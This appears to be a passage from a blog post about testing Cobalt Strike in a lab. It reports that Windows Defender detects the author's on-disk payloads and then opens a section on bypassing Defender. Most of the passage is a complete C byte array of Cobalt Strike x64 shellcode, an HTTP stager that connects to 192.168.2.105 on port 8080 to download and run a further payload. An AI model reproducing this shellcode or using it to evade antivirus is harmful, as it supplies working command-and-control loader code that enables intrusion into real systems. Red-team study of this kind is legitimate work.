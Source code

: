 #### Windows Defender

![Windows Defender blocking the payload](/img/playing-with-cobalt-strike-2-10.webp)

Here's a more serious issue, for me as an attacker, at least. In reality, I am, of course, happy to see that Microsoft has not only identified the sample as a virus but done so correctly (`Backdoor:Win64/CobaltStrike.NP!dha`). I tried several more configurations, including stageless delivery and a PowerShell script, none of which were able to get past Windows Defender. However, that is expected behavior given default configurations.

### Bypassing Windows Defender

#### Generating Shellcode

Thus far, all payloads generated have resided on disk, implying that, to work past Windows Defender at this stage, blatantly malicious code must only be present in memory, if at all. Cobalt Strike supports shellcode generation; as I am most familiar with C, I generated shellcode in that language, which yielded the following:

```c
unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4f\xff\xff\xff\x5d\x6a\x00\x49\xbe\x77\x69\x6e\x69\x6e\x65\x74\x00\x41\x56\x49\x89\xe6\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x48\x31\xc9\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\x41\x50\x41\x50\x41\xba\x3a\x56\x79\xa7\xff\xd5\xeb\x73\x5a\x48\x89\xc1\x41\xb8\x90\x1f\x00\x00\x4d\x31\xc9\x41\x51\x41\x51\x6a\x03\x41\x51\x41\xba\x57\x89\x9f\xc6\xff\xd5\xeb\x59\x5b\x48\x89\xc1\x48\x31\xd2\x49\x89\xd8\x4d\x31\xc9\x52\x68\x00\x02\x40\x84\x52\x52\x41\xba\xeb\x55\x2e\x3b\xff\xd5\x48\x89\xc6\x48\x83\xc3\x50\x6a\x0a\x5f\x48\x89\xf1\x48\x89\xda\x49\xc7\xc0\xff\xff\xff\xff\x4d\x31\xc9\x52\x52\x41\xba\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x85\x9d\x01\x00\x00\x48\xff\xcf\x0f\x84\x8c\x01\x00\x00\xeb\xd3\xe9\xe4\x01\x00\x00\xe8\xa2\xff\xff\xff\x2f\x55\x6e\x71\x75\x65\x75\x65\x2f\x76\x31\x30\x2e\x30\x35\x2f\x5a\x30\x51\x5a\x39\x5a\x58\x45\x58\x47\x45\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x41\x63\x63\x65\x70\x74\x3a\x20\x61\x70\x70\x6c\x69\x63\x61\x74\x69\x6f\x6e\x2f\x6a\x73\x6f\x6e\x2c\x20\x74\x65\x78\x74\x2f\x68\x74\x6d\x6c\x2c\x20\x61\x70\x70\x6c\x69\x63\x61\x74\x69\x6f\x6e\x2f\x78\x68\x74\x6d\x6c\x2b\x78\x6d\x6c\x0d\x0a\x41\x63\x63\x65\x70\x74\x2d\x4c\x61\x6e\x67\x75\x61\x67\x65\x3a\x20\x73\x71\x0d\x0a\x41\x63\x63\x65\x70\x74\x2d\x45\x6e\x63\x6f\x64\x69\x6e\x67\x3a\x20\x67\x7a\x69\x70\x2c\x20\x62\x72\x0d\x0a\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x35\x2e\x30\x20\x28\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x31\x30\x2e\x30\x3b\x20\x57\x69\x6e\x36\x34\x3b\x20\x78\x36\x34\x29\x20\x41\x70\x70\x6c\x65\x57\x65\x62\x4b\x69\x74\x2f\x35\x33\x37\x2e\x33\x36\x20\x28\x4b\x48\x54\x4d\x4c\x2c\x20\x6c\x69\x6b\x65\x20\x47\x65\x63\x6b\x6f\x29\x20\x43\x68\x72\x6f\x6d\x65\x2f\x36\x32\x2e\x30\x2e\x33\x32\x30\x32\x2e\x39\x34\x20\x53\x61\x66\x61\x72\x69\x2f\x35\x33\x37\x2e\x33\x36\x0d\x0a\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x41\xbe\xf0\xb5\xa2\x56\xff\xd5\x48\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd7\x58\x58\x58\x48\x05\xa1\x03\x00\x00\x50\xc3\xe8\x9f\xfd\xff\xff\x31\x39\x32\x2e\x31\x36\x38\x2e\x32\x2e\x31\x30\x35\x00\x00\x00\x00\x00";
```
